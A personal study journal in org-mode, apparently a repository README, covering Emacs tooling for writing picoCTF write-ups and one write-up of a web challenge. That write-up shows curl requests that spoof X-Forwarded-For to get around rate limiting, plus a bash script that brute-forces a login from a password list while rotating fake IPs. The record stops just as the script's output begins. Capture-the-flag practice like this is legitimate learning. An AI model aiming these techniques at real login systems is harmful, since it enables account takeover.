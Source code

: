 #+property: header-args :eval no :noweb no

Current project: [[https://github.com/rafaelbeirigo/odin-css-exercises/][Web Development Foundations Course from The Odin Project]].

# Usar `webdev' template (yas).

* [2025-10-25 Sat]

* I created a program that automatically gets the CTF challenge info for me, so I don't have to type it.

Writeups are about to get much easier and funnier!
CTF writeups need a lot of context, and they sometimes come as a story, other times as just a question, but in any case, that must go into the writeup.
So far I was copying/pasting, and then cleaning up the text.
It was /very/ tedious!

Today I created a small program that automatically goes to the website and grabs that info and inserts it necely inside my editor, in a pre-chosen template.
The pictures below show the info on the website and the editor.

#+caption: Challenge info in the website and the editor.
[[file:images/2025-10-25-ctf-insert-info.jpeg]]

* Code

This is the code that makes the magic happens:

#+begin_src elisp
;; TODO: Consider this division:
;; - ctf-fetch-json (or ctf-fetch-html)
;; - ctf-parse-info (or ctf-parse-html)
;; - ctf-insert-info
(defvar ctf-picoctf-user nil
  "Username to login on picoCTF.")
(defvar ctf-html-to-plain-command nil
  "Command to call when converting HTML to plain text.")
(define-minor-mode ctf-mode
  "Minor mode for CTF writeups."
  :lighter " Ctf"
  :keymap (make-sparse-keymap)
  
  )
(defun ctf-info-from-id (id &optional user)
  "Retrives the challenge's info from the website using ID."
  (interactive "Mid: ")
  (require (quote auth-source))
  (let* ((user (or ctf-picoctf-user user))
         (results (car (auth-source-search :host "play.picoctf.org" :user user :max 1)))       
         (secret (plist-get results :secret))
         (password (if (functionp secret) (funcall secret) secret))
         (csrftoken (plist-get results :csrftoken))
         (cookie (plist-get results :cookie))
         ;; Get the challenge info and save it in JSON format in the file `/tmp/html.json'.
         (command (format "curl --output '/tmp/html.json' 'https://play.picoctf.org/api/challenges/%s/instance/' -H 'Cookie: %s'" id cookie)))
    (shell-command command))
  ;; TODO (ChatGPT critique): The ctf-html-to-plain-command bit feels brittle — if
  ;; the API returns HTML inside JSON, better to convert inside Emacs.  You can
  ;; strip tags using shr-render-region or libxml-parse-html-region. Then you’re
  ;; not shelling out to an external script unnecessarily.
  
  (shell-command ctf-html-to-plain-command)
  (with-temp-buffer
    (insert-file-contents "/tmp/plain.json")
    (let* ((json-string (buffer-substring-no-properties (point-min) (point-max)))
           (json-plist (json-parse-string json-string :object-type 'plist)))
      json-plist))
  ;; TODO: If that failed, get a new cookie and ask again
  )
;; TODO: Use `org-insert-link' for the links below.
(defun ctf-insert-info (id)
  "Insert the info from challenge ID into current buffer."
  (interactive "Mid: ")
  (let* ((info (ctf-info-from-id id))
         (description (plist-get info :description))
         (description-urls (seq-into (plist-get info :description_urls) 'list))
         (hints (seq-into (plist-get info :hints) 'list))
         (hints-urls (seq-into (plist-get info :hints_urls) 'list)))
    (insert "* Description\n")
    (insert (format "\n%s\n" description))
    (when hints
      (insert "\n* Hints\n")
      (dolist (hint hints)
        (insert (format "\n- %s\n" hint))))
    (when hints-urls
      (insert "\n* Hints URLs\n")
      (dolist (hints-url hints-urls)
        (insert (format "\n- [[%s]]\n" hints-url))))
    (when description-urls
      (insert "\n* Assets\n")
      (dolist (description-url description-urls)
        (insert (format "\n** [[%s]]\n" description-url))))))
(provide 'ctf-mode)

#+end_src

It calls this script:

#+begin_src python
import json
from bs4 import BeautifulSoup

# Load JSON from file
with open("/tmp/html.json", "r", encoding="utf-8") as f:
    data = json.load(f)

def html_to_text_and_urls(html_content):
    """Convert HTML to plain text and extract all URLs."""
    soup = BeautifulSoup(html_content, "html.parser")
    text = soup.get_text(separator=" ", strip=True)
    links = [a["href"] for a in soup.find_all("a", href=True)]
    return text, links

# Process the description
desc_text, desc_urls = html_to_text_and_urls(data.get("description", ""))

# Process the hints (list of HTML strings)
plain_hints = []
all_hint_urls = []
for hint_html in data.get("hints", []):
    hint_text, hint_urls = html_to_text_and_urls(hint_html)
    plain_hints.append(hint_text)
    all_hint_urls.extend(hint_urls)

# Create clean version
out_data = {
    "id": data["id"],
    "status": data["status"],
    "description": desc_text,
    "description_urls": desc_urls,
    "hints": plain_hints,
    "hint_urls": all_hint_urls,
}

# Save cleaned JSON
with open("/tmp/plain.json", "w", encoding="utf-8") as f:
    json.dump(out_data, f, indent=2, ensure_ascii=False)

print("✅ Extracted plain text and URLs to /tmp/plain.json")
#+end_src

** This is the literate programming version

#+property: header-args :results replace

*** This is the CTF minor mode.  I'll be using it to make CTF writeups.
Besides editing facilities, it also does some /challenge-solving/ of its own.
For example, after downloading a file, it looks at its type (as informed by the command ~file~), and potentially runs more commands, appropriate for that type of file.

[[file:ctf-mode.el][ctf-mode.el]] ≡

#+begin_src emacs-lisp :tangle ctf.el
;; TODO: Consider this division:
;; - ctf-fetch-json (or ctf-fetch-html)
;; - ctf-parse-info (or ctf-parse-html)
;; - ctf-insert-info
<<Variable definitions>>
<<Define the minor mode>>
<<Function that gets the challenge info from an ID>>
<<Populate the writeup with the challenge info>>
(provide 'ctf-mode)
#+end_src

*** First, let's define it, add a nice lighter to it, and its own neat keymap.

~<<Define the minor mode>> +≡~

#+begin_src elisp :noweb-ref Define the minor mode
(define-minor-mode ctf-mode
  "Minor mode for CTF writeups."
  :lighter " Ctf"
  :keymap (make-sparse-keymap)
  <<Minor mode definition>>
  )
#+end_src

*** *Function that gets the challenge info from an ID.*  This process need authentication.  It first tries to use the credentials and cookie saved locally.  If that fails, it obtains a new cookie and tries again.

~<​<Function that gets the challenge info from an ID>> +≡​~

#+begin_src elisp :noweb-ref Function that gets the challenge info from an ID
(defun ctf-info-from-id (id &optional user)
  "Retrives the challenge's info from the website using ID."
  (interactive "Mid: ")
  <<Ask for the info with the current cookie>>
  ;; TODO: If that failed, get a new cookie and ask again
  )
#+end_src

**** *Ask for the info with the current cookie.*  Grab the local credentials and cookie and ask picoCTF for the information (description, hints and links) of a challenge whose ID is ~id~.  If it succeeds, the info is saved as a JSON file.

~<​<Ask for the info with the current cookie>> +≡​~

#+begin_src elisp :noweb-ref Ask for the info with the current cookie :results none
(require (quote auth-source))
(let* ((user (or ctf-picoctf-user user))
       (results (car (auth-source-search :host "play.picoctf.org" :user user :max 1)))       
       (secret (plist-get results :secret))
       (password (if (functionp secret) (funcall secret) secret))
       (csrftoken (plist-get results :csrftoken))
       (cookie (plist-get results :cookie))
       ;; Get the challenge info and save it in JSON format in the file `/tmp/html.json'.
       (command (format "curl --output '/tmp/html.json' 'https://play.picoctf.org/api/challenges/%s/instance/' -H 'Cookie: %s'" id cookie)))
  (shell-command command))
#+end_src

~<​<Variable definitions>> +≡​~

#+begin_src elisp :noweb-ref Variable definitions
(defvar ctf-picoctf-user nil
  "Username to login on picoCTF.")
#+end_src

**** *Create a Python script to extract the text and URLs from the JSON file we got.*  This file we just got will contain the challenge info, but in HTML, with the markup elements, like ~<p>...</p>~, ~<a href ...>...</a>~, etc.  We need to clean that up.  We use Python for that.  First we create the script, then we call it.  This script will create a new file called ~plain.json~ with the challenge's info ready to be inserted into the writeup.

3. JSON and shell handling

#+begin_src python :tangle html-to-plain.py
import json
from bs4 import BeautifulSoup

# Load JSON from file
with open("/tmp/html.json", "r", encoding="utf-8") as f:
    data = json.load(f)

def html_to_text_and_urls(html_content):
    """Convert HTML to plain text and extract all URLs."""
    soup = BeautifulSoup(html_content, "html.parser")
    text = soup.get_text(separator=" ", strip=True)
    links = [a["href"] for a in soup.find_all("a", href=True)]
    return text, links

# Process the description
desc_text, desc_urls = html_to_text_and_urls(data.get("description", ""))

# Process the hints (list of HTML strings)
plain_hints = []
all_hint_urls = []
for hint_html in data.get("hints", []):
    hint_text, hint_urls = html_to_text_and_urls(hint_html)
    plain_hints.append(hint_text)
    all_hint_urls.extend(hint_urls)

# Create clean version
out_data = {
    "id": data["id"],
    "status": data["status"],
    "description": desc_text,
    "description_urls": desc_urls,
    "hints": plain_hints,
    "hint_urls": all_hint_urls,
}

# Save cleaned JSON
with open("/tmp/plain.json", "w", encoding="utf-8") as f:
    json.dump(out_data, f, indent=2, ensure_ascii=False)

print("✅ Extracted plain text and URLs to /tmp/plain.json")
#+end_src

~<​<Ask for the info with the current cookie>> +≡​~

#+begin_src elisp :noweb-ref Ask for the info with the current cookie
;; TODO (ChatGPT critique): The ctf-html-to-plain-command bit feels brittle — if
;; the API returns HTML inside JSON, better to convert inside Emacs.  You can
;; strip tags using shr-render-region or libxml-parse-html-region. Then you’re
;; not shelling out to an external script unnecessarily.

(shell-command ctf-html-to-plain-command)
#+end_src

~<​<Variable definitions>> +≡​~

#+begin_src elisp :noweb-ref Variable definitions
(defvar ctf-html-to-plain-command nil
  "Command to call when converting HTML to plain text.")
#+end_src

**** Get the challeng info from ~plain.json~ and store it into a variable that the function will return

~<​<Ask for the info with the current cookie>> +≡​~

#+begin_src elisp :noweb-ref Ask for the info with the current cookie
(with-temp-buffer
  (insert-file-contents "/tmp/plain.json")
  (let* ((json-string (buffer-substring-no-properties (point-min) (point-max)))
         (json-plist (json-parse-string json-string :object-type 'plist)))
    json-plist))
#+end_src

*** *Populate the writeup with the challenge info.*

Use the extracted, clean info to populate the writeup.

~<​<Populate the writeup with the challenge info>> +≡​~

#+begin_src elisp :noweb-ref Populate the writeup with the challenge info
;; TODO: Use `org-insert-link' for the links below.
(defun ctf-insert-info (id)
  "Insert the info from challenge ID into current buffer."
  (interactive "Mid: ")
  (let* ((info (ctf-info-from-id id))
         (description (plist-get info :description))
         (description-urls (seq-into (plist-get info :description_urls) 'list))
         (hints (seq-into (plist-get info :hints) 'list))
         (hints-urls (seq-into (plist-get info :hints_urls) 'list)))
    (insert "* Description\n")
    (insert (format "\n%s\n" description))
    (when hints
      (insert "\n* Hints\n")
      (dolist (hint hints)
        (insert (format "\n- %s\n" hint))))
    (when hints-urls
      (insert "\n* Hints URLs\n")
      (dolist (hints-url hints-urls)
        (insert (format "\n- [[%s]]\n" hints-url))))
    (when description-urls
      (insert "\n* Assets\n")
      (dolist (description-url description-urls)
        (insert (format "\n** [[%s]]\n" description-url))))))
#+end_src


* Outcome

The process of making CTF writeups just got /much/ easier---and /enjoyable/!
Instead of wasting mental energy on tedious tasks, I can focus on injecting precise, useful information.
It also helps on /adding/ the information: most of the time it may feel like it's not worth the effort, but having that information at hand while reading the writeup makes a /huge/ difference: many times the path towards a solution depends on some subtle information in the description!

* Next steps

As you can see, there are already a lot explicit of TODOs.
Also, I want to:
- Update the local cookie when it expires.
  This involves authentication in *two stages*:
  1. Pass a Cloudfare challenge and get a key.  For this, I'll use Puppeteer in headless mode.
  2. Authenticate with that key, user and password, obtaining a new cookie.


I already have the functioning code for those two, now I just need to integrate it on the current code.

* [2025-10-24 Fri]

** Sharpening the axe (still)

Working on tools (to make tools (...)) I came upon what could be called a semi-realization: it is also about commitment.
When preparing Emacs to edit blog posts, there are always some "shortcuts" along the way---sub-optimal or not-so-best-practices forks in the path.
It's somewhat tempting to take those shortcuts, especially when you are not /doing the thing/, but still /preparing to do the thing/.
But if one is in it for the long run, it pays off to pause, learn how to do stuff properly, think, organize, and implement.
Today was that day for me.

It all started with Yasnippets, that helps with abbreviations: when I type ~autotangle~, for instance, it expands to

#+begin_src shell :eval no
#-*- auto-fill-function: nil; eval: (add-hook 'after-save-hook (lambda () (org-babel-tangle) (load "/home/rafa/dev/webdev-study/README")) nil t); -*-
#+end_src

which tells Emacs to take what I just write, plus everything else in the buffer, /tangle/ it to the proper file, and listen to all that that file has to say.
Very nice.

30 minutes later I realized I was doing this for a lot of files, and those files were in the same directory.
The Proper® way to do that became then to use a /directory local variable/.
I had to go to the manual, remember how to do it, and iterate until it was done.
Can't say I didn't have fun, though.

Then my tug-of-war with Org and its colors for the fonts got a new episode today.
The proper solution was to create a /minor-mode/, that has its own colors, just the way I like it, and Org doesn't have a say on it.
The next section is all theirs.

** A mode as a weapon

~noweb.el~

#+begin_src elisp :tangle no
(defvar noweb-mode-map (make-sparse-keymap))

(define-minor-mode  noweb-mode
  "Minor mode for noweb hacking."
  :global nil
  :init-value nil
  :lighter " Noweb"
  :keymap noweb-mode-map

  (set (make-local-variable 'comment-start) "#")

  <<Resolve faces when enabling/disabling the mode>>)
<<font-lock stuff>>
<<functions>>
(add-hook 'org-mode-hook 'noweb-mode)
#+end_src

# Can't tangle this because it contains `<<', and this upsets Org-babel's noweb
# engine.
#+begin_src elisp :tangle no
(defun noweb-fix-function-thingy-buffer-wide ()
  "Adds some ZERO WIDTH SPACE to avoid font-lock conflicts with Org."
  (interactive)
  (save-excursion
    (goto-char (point-min))
    (while (re-search-forward "~<<\\(.*?\\)>> \\+≡~" nil t)
      (replace-match (format "~<%s<\\1>> +≡%s~" "​" "​") t))))
#+end_src

*** Faces

**** Create faces

~<​<font-lock stuff>> +≡​~

#+begin_src elisp :noweb-ref font-lock stuff
(defface noweb-module-name-face
  '((t (:foreground "green")))
  "Face for `foo' in `<<foo>>'.")
#+end_src

**** Determine the keywords and their corresponding faces

~<​<font-lock stuff>> +≡​~

#+begin_src elisp :noweb-ref font-lock stuff :noweb no
(defvar noweb-font-lock-keywords
  '(("\\(<<.*>>\\)" 1 'noweb-module-name-face t)
    ("~\\(<​<.*>>\\) \\+≡​~" 1 'noweb-module-name-face t))
  "Font-lock keywords for `noweb-mode' minor mode.")
#+end_src

~<​<Resolve faces when enabling/disabling the mode>> +≡​~

#+begin_src elisp :noweb-ref Resolve faces when enabling/disabling the mode
(if noweb-mode
    (font-lock-add-keywords nil noweb-font-lock-keywords t)
  (font-lock-remove-keywords nil noweb-font-lock-keywords))
(font-lock-flush)
(font-lock-ensure)
#+end_src

*** *Load the tangled el.*  After tangling ~org~ files that generate a corresponding ~el~, it is sometimes useful to ~load~ that ~el~ file, applying all the goodness therein.  This function does just that.

~<​<functions>> +≡​~

#+begin_src elisp :noweb-ref functions
(defun noweb-load-auto-tangled ()
  "Call function `load' on the file with same name but `.el' extension."
  (interactive)
  (let ((filename
         (file-name-sans-extension (buffer-file-name))))
    (load filename) nil t))
#+end_src

** Getting closer to the thing proper

Then at the end of the day I finally started working on a (nother) minor-mode, this time specifically to help me write the blog posts.

*** This is the CTF minor mode.  I'll be using it to make CTF writeups.
Besides editing facilities, it also does some /challenge-solving/ of its own.
For example, after downloading a file, it looks at its type (as informed by the command ~file~), and potentially runs more commands, appropriate for that type of file.

[[file:ctf-mode.el][ctf-mode.el]] ≡

#+begin_src emacs-lisp :tangle no
<<Define the minor mode>>
(provide 'ctf-mode)
#+end_src
*** First, let's define it, add a nice lighter to it, and its own neat keymap.

~<<Define the minor mode>> +≡~

#+begin_src elisp :noweb-ref Define the minor mode
(define-minor-mode ctf-mode
  "Minor mode for CTF writeups."
  :lighter " Ctf"
  :keymap (make-sparse-keymap)
  <<Minor mode definition>>
  )
#+end_src

*** *Description Function.*  CTF writeups are all about the challenge.  Let's create a function that helps us when creating that description.

#+begin_src elisp
(define-skeleton blog-insert-description
  "Insert ctf description for the blog."
  nil
  "* Description"
  (nil \n \n (read-string "description: "))
  \n \n "Hints"
  ("hint: " '(org-return-and-maybe-indent) "- " str) | -7
  (nil \n \n \n "*Link:* [[" (read-string "link: ") "]]")
  '(delete-trailing-whitespace)
  '(save-buffer)
  '(git-commit-all "feat: add description"))
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-24_seinfeld.jpeg]]

* [2025-10-23 Thu]

** Blog got a new theme!

After more hours than I am comfortable to count, I could finally change the theme on the [[https://rafaelbeirigo.github.io/cybersec-dojo/][blog]].
I was trying really hard to make the obvious thing work: just changing the option.
As it turns out, it is not that simple: each theme may have its own quirks and idiosyncrasies.

But thankfuly, it wasn't that complicated, either.
The key factor was a change in mindset: instead of consuming tutorials blindly, take a step back, identify the fundamental entities involved, and how I could apply my knowledge to solve it; also, think outside the box: remove the restriction of having to make the official package work.

In the end, I could use official packages, and the latest releases, which is a relief (makes it easier to maintain, at least in theory, as obsolescence should be postponed, relatively to older packages).

** Worked on several macros to make blogging easier (and funnier!)

This one may look a bit *bold*, but it is used reasonably, I promise...

#+begin_src elisp
(defun git-commit-all (message)
  "Stage and commit all changes in the repository."
  (interactive "Mmessage: ")
  (async-shell-command
   (let* ((script "~/ctf-writeups/chore/git/commit/commit.sh")
          (command (concat script " \"" message "\"")))
     (async-shell-command command))))
#+end_src

This one came first as courtesy of ChatGPT.
But, as it turned out, I not only had, but hopefully /could/ add some changes---and even improvements!---of my own.

When writing about challenges, there is a /lot/ of command references, and they all have to be formatted ~like this~.
To accomplish that, I must enclose the word between tildes, and this gets old /very/ fast!

The brilliant---and /elegant/---idea of ChatGPT was to create a /minor-mode/ in Emacs  for just that: automatically enclose a word in tildes when applicable.
The initial idea was to /tilde/ every word Emacs recognizes as a /command/.
I also told Emacs to tilde the words when they belonged to a special list: a list with filenames that are specific to the challenge at hand---they also must be enclosed in tildes.

This was fun, as I had the opportunity to work with file-local variables and learned a lot.

#+begin_src elisp
(defun my-mark-command-in-tilde ()
  "Wrap shell commands in ~command~ when typed in Org, except inside src blocks.
Triggers on non-word characters like space, ., ,, etc."
  (when (and (eq major-mode 'org-mode)
             (not (org-in-src-block-p))
             (not (eq last-command-event ?~))  ;; avoid recursion
             (not (memq (char-syntax last-command-event) '(?w ?_)))) ;; not word/underscore
    (save-excursion
      ;; Go to the start of the word.
      (backward-word 1)
      ;; Deal with words with "extensions" (e.g., foo.bar).
      (while (or (looking-back "\\w" 1)
                 (looking-back "\\." 1))
        (backward-char))
      (let ((start (point)))
        (while (or (looking-at "\\w" 1)
                   (looking-at "\\." 1))
          (forward-char))
        (let* ((end (point))
               (word (buffer-substring-no-properties start end))
               (really-is-a-command
                ;; These commands could be just words; check with the user.
                (if (member word (list "find" "file"))
                    (yes-or-no-p "command?")
                  t)))
          (when
              (and
               (or (executable-find word)
                   ;; Assets are filenames, usually defined with `assets' as
                   ;; file-local variable.
                   (and (local-variable-p 'assets) (member word assets)))
               really-is-a-command
               (and (not (eq (char-before start) ?~))
                    (not (eq (char-after end) ?~))))
            ;; Replace word with ~word~
            (undo-boundary)
            (delete-region start end)
            (insert (format "~%s~" word))
            (undo-boundary)))))))

(define-minor-mode my-auto-mark-commands-mode
  "Minor mode to auto-wrap shell commands in tildes (~) in Org buffers."
  :lighter " ~Cmd~"
  (if my-auto-mark-commands-mode
      (add-hook 'post-self-insert-hook #'my-mark-command-in-tilde nil t)
    (remove-hook 'post-self-insert-hook #'my-mark-command-in-tilde t)))

(add-hook 'org-mode-hook #'my-auto-mark-commands-mode)
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-23_seinfeld.jpeg]]

* [2025-10-22 Wed]

** CTF blog

These past few days' work on CTFs motivated me to start a simple blog to document them.

Here is [[https://rafaelbeirigo.github.io/cybersec-dojo/binary-exploitation/2025/10/22/picoctf-picker-iv-writeup.html][my first blog post on Cybersecurity!]].

Next steps include changing the theme for a more /cyber/-oriented :)

*** Small adaptation to publishing function

I made a tiny adaptation to a function to make the publishing process esier---it asks for a directory if called in a specific manner.

#+begin_src elisp
(defun my-org-jekyll-md-export-to-md (&optional arg async subtreep visible-only)
  "Export current buffer to a Markdown file adding some YAML front matter."
  (interactive "P")
  (let ((outfile (concat
                  (when arg (concat (read-directory-name "dir: ") "/"))
                  (org-jekyll-md-filename-date)
                  (org-export-output-file-name ".md" subtreep))))
    (org-export-to-file 'jekyll outfile async subtreep visible-only)))
#+end_src

*** Insert blog header info automatically

This little function may help a lot!

#+begin_src elisp
(define-skeleton blog-header
  "Insert a header for blogging."
  nil
  "#+TITLE: " (read-string "title: ") \n
  "#+DATE: " (format-time-string "%Y-%m-%d %R" (org-read-date t t)) \n
  "#+JEKYLL_LAYOUT: post" \n
  "#+JEKYLL_CATEGORIES: " (read-string "categories: ") \n
  "#+JEKYLL_TAGS: " (read-string "tags: "))
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-22_seinfeld.jpeg]]

* [2025-10-21 Tue]

** Progress and tools

It seems I got to a point where I should automate some work---and do it fast---and go *slow* on some other work---and *reflect* about it.

Also, tired of the repetition.

Need to freshen up!

** Seinfeld Checkmark

[[file:images/2025-10-21_seinfeld.jpeg]]

* [2025-10-20 Mon]

** picoCTF

Today I finished the last Easy challenge they have.
It was 81 in total.
There are still two to solve, but they are under maintenance.

I also started the Medium level ones.
They are somehow clearer than the Easy ones (maybe because they go deep on a specific detail of a subject).

Here's the last one I solved:

*** Crack the Gate 2
**** Instructions and commentaries

We are given a link to a login page.

The instructions say:

- The login system has been upgraded with

- a basic rate-limiting mechanism that

  - locks out

  - repeated failed attempts

  - from the same source.

- We’ve received a tip that

  - the system might still trust

  - user-controlled headers.

- Your objective is to

  - bypass the rate-limiting restriction and

  - log in using the known email address: ctf-player@picoctf.org and

  - uncover the hidden secret.

We are also given the following Hints:

- What IP does the server think you’re coming from?
- Read more about [[https://www.typeerror.org/docs/http/headers/x-forwarded-for][X-forwarded-For]].
- You can rotate fake IPs to bypass rate limits.

**** Download assets
#+begin_src shell
2>&1 wget https://challenge-files.picoctf.net/c_amiable_citadel/d168d254b68d30726076de06aab9b9b74c5470344ec974360f5a9045c6398b17/passwords.txt
#+end_src

#+RESULTS:
#+begin_example
--2025-10-20 18:25:19--  https://challenge-files.picoctf.net/c_amiable_citadel/d168d254b68d30726076de06aab9b9b74c5470344ec974360f5a9045c6398b17/passwords.txt
Resolving challenge-files.picoctf.net (challenge-files.picoctf.net)... 108.158.186.79, 108.158.186.39, 108.158.186.116, ...
Connecting to challenge-files.picoctf.net (challenge-files.picoctf.net)|108.158.186.79|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 179 [application/octet-stream]
Saving to: ‘passwords.txt’

     0K                                                       100%  418M=0s

2025-10-20 18:25:21 (418 MB/s) - ‘passwords.txt’ saved [179/179]

#+end_example

Asset ~passwords.txt~:

#+begin_example
tkY83OwR
vISQRFmM
471HtPne
s8nXfR6X
WoQEk5GL
eu8z9EFn
0SMi2c8U
WlHiKuw6
0iaXgUGR
shNKoNrW
KaqwDEUA
eSqOLef7
CueFICmh
MZZSJucZ
eZQR9yx7
sPEIun6X
p0fkX9cA
CY1sEmC6
M707m17w
8thnKYYn
#+end_example

**** Is it possible to circumvent rate-limiting by spoofing IP via POST header X-Forwarded-For? Yes

I tried to login via the web page once, and got the command below.
Running it again here, using cURL.

#+begin_src shell
2>&1 curl -v 'http://amiable-citadel.picoctf.net:57381/login' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
  -H 'Connection: keep-alive' \
  -H 'Priority: u=0' \
  --data-raw '{"email":"ctf-player@picoctf.org","password":"whatever"}'
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57381...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57381 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57381
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 429 Too Many Requests
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 85
< ETag: W/"55-BeJP6dUudMpXjI0h8c0UICFySpk"
< Date: Mon, 20 Oct 2025 23:35:31 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [85 bytes data]
100   141  100    85  100    56    160    105 --:--:-- --:--:-- --:--:--   266
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false,"error":"Too many failed attempts. Please try again in 20 minutes."}
#+end_example

It applied the rate-limiting.

Now trying again, using the header ~X-Forwarded-For~ to spoof my IP.

#+begin_src shell
2>&1 curl -v 'http://amiable-citadel.picoctf.net:57381/login' \
  -X POST \
  -H 'X-Forwarded-For: 1.2.3.4' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
  -H 'Connection: keep-alive' \
  -H 'Priority: u=0' \
  --data-raw '{"email":"ctf-player@picoctf.org","password":"whatever"}'
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57381...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57381 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57381
> X-Forwarded-For: 1.2.3.4
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:38:09 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     36    119 --:--:-- --:--:-- --:--:--   155100    73  100    17  100    56     36    119 --:--:-- --:--:-- --:--:--   155
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}
#+end_example

It did *not* apply the rate-limiting!

**** Brute-force attack login with provided list of passwords

[[file:login.sh][login.sh]] ≡

#+begin_src shell
#!/bin/bash

# Part of the IP that will change for each request
I=1

cat passwords.txt | \
    while read PWD
    do
        # Get a new IP
        2>&1 curl -v 'http://amiable-citadel.picoctf.net:57780/login' \
             -X POST \
             -H 'X-Forwarded-For: 1.2.3.'$I \
             -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
             -H 'Accept: */*' \
             -H 'Accept-Language: en-US,en;q=0.5' \
             -H 'Accept-Encoding: gzip, deflate' \
             -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
             -H 'Content-Type: application/json' \
             -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
             -H 'Connection: keep-alive' \
             -H 'Priority: u=0' \
             --data-raw '{"email":"ctf-player@picoctf.org","password":"'$PWD'"}'

        # Change a part of the IP for the next request
        I=$(( $I + 1 ))
    done
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
